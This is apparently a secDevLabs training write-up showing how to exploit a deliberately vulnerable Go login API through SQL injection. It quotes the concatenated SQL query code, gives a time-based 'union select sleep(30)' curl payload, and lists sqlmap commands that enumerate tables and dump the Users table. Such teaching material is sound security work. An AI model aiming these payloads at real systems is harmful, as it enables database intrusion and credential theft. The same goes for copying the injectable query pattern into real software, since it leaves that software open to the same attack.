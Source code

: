 # Attack Narrative - CopyNPaste API (Injection)

The main goal of this documentation is to describe how a malicious user could exploit an Injection vulnerability intentionally intalled on CopyNPaster API from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a1/copy-n-paste) yet, you should check them before reading this narrative. 

----

## 👀

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`]((https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a1/copy-n-paste/app/util/db.go#)) file, it was possibile to see that some input from users are concatenated with SQL queries, as shown in the following codes: 

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is present to these variables, SQL injections may be successfuly executed in the database. To confirm this, the following payload could be used that, if the application is indeed vulnerable, a 30 seconds delay will be noted after sending it:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:3000/login 
```

Request:
<img src="attack-1.png" align="center"/>

30 seconds later: 
<img src="attack-2.png" align="center"/>

## 🔥

An attacker could now create any malicious SQL queries and send to the API that, in theory, will be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed. 

To install sqlmap on Mac you can simply type:

```sh
brew install sqlmap
```

First possible step is to create a `postRequest.txt` containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Then we could use `-r` option and wait sqlmap perform multiples malicious requests until it finds the vulnerable parameter:

```sh
$ sqlmap -r postRequest.txt
```

<img src="attack-3.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
$ sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
$ sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="attack-4.png" align="center"/>
